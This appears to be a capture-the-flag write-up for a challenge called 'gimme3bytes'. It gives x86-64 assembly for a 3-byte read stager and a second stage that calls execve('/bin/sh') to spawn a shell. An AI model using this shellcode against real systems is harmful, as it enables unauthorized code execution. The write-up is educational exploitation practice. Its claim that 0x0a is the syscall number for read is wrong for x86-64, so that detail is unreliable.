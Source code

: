 # gimme3bytes

It reads 3 bytes from stdin and executes them as shellcode.

The idea is to run a multi-stage shellcode, where the first stage is a small shellcode that call the syscall `read` to read the second stage from stdin. The second stage is the actual shellcode that will be executed.

## First Stage (3 bytes)

```c
pop rdx
syscall
```

- RAX: already set to 0x0a (syscall number for `read`)
- RDI: already set to 0x0 (stdin)
- RSI: already set to the buffer address
- RDX: set using `pop rdx`. Why so? Because at that point the stack contains a large number that can be used as a buffer size. But not so large that the read will not execute correctly (see man page for `read`, in particular the NOTES section).

## Second Stage (25 bytes)

Main idea: `execve(RDI -> "/bin/sh", RSI = argv -> NULL, RDX = envp -> NULL)`

```c
nop
nop
nop
mov rdi, rsi
add rdi, 0x19
mov rax, 0x3b
xor rsi, rsi
xor rdx, rdx
syscall
.string "/bin/sh"
```

Note: The first three `nop`s are there since the RIP after the first stage is set at the end of the buffer and cannot be changed. With the three `nop`s we push the second stage three bytes forward right where the RIP will be set and then `mov rdi, rsi` will be the first instruction executed.

- RDI: set to the buffer address + 25, to point to the string "/bin/sh"
- RAX: set to 0x3b (syscall number for `execve`)
- RSI: set to 0x0 (NULL)
- RDX: set to 0x0 (NULL)

The complete exploit is in [script.py](script.py).
